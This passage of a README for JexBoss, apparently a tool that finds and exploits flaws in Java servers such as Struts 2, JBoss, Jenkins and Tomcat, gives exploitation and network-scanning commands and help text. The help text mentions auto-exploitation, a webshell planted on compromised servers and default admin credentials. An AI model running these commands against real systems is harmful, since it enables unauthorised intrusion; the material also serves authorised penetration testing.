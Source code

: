 -   For Apache Struts 2 (CVE-2017-5638) with cookies for authenticated
    resources

```{=html}
<!-- -->
```
    $ python jexboss.py -u http://vulnerable_java_struts2_app/page.action --struts2 --cookies "JSESSIONID=24517D9075136F202DCE20E9C89D424D"

-   Auto scan mode:

```{=html}
<!-- -->
```
    $ python jexboss.py -mode auto-scan -network 192.168.0.0/24 -ports 8080,80 -results report_auto_scan.log

-   File scan mode:

```{=html}
<!-- -->
```
    $ python jexboss.py -mode file-scan -file host_list.txt -out report_file_scan.log

-   More Options:

```{=html}
<!-- -->
```
    optional arguments:
      -h, --help            show this help message and exit
      --version             show program's version number and exit
      --auto-exploit, -A    Send exploit code automatically (USE ONLY IF YOU HAVE
                            PERMISSION!!!)
      --disable-check-updates, -D
                            Disable two updates checks: 1) Check for updates
                            performed by the webshell in exploited server at
                            http://webshell.jexboss.net/jsp_version.txt and 2)
                            check for updates performed by the jexboss client at
                            http://joaomatosf.com/rnp/releases.txt
      -mode {standalone,auto-scan,file-scan}
                            Operation mode (DEFAULT: standalone)
      --app-unserialize, -j
                            Check for java unserialization vulnerabilities in HTTP
                            parameters (eg. javax.faces.ViewState, oldFormData,
                            etc)
      --servlet-unserialize, -l
                            Check for java unserialization vulnerabilities in
                            Servlets (like Invoker interfaces)
      --jboss               Check only for JBOSS vectors.
      --jenkins             Check only for Jenkins CLI vector.
      --jmxtomcat           Check JMX JmxRemoteLifecycleListener in Tomcat
                            (CVE-2016-8735 and CVE-2016-8735). OBS: Will not be
                            checked by default.
      --proxy PROXY, -P PROXY
                            Use a http proxy to connect to the target URL (eg. -P
                            http://192.168.0.1:3128)
      --proxy-cred LOGIN:PASS, -L LOGIN:PASS
                            Proxy authentication credentials (eg -L name:password)
      --jboss-login LOGIN:PASS, -J LOGIN:PASS
                            JBoss login and password for exploit admin-console in
                            JBoss 5 and JBoss 6 (default: admin:admin)
      --timeout TIMEOUT     Seconds to wait before timeout connection (default 3)

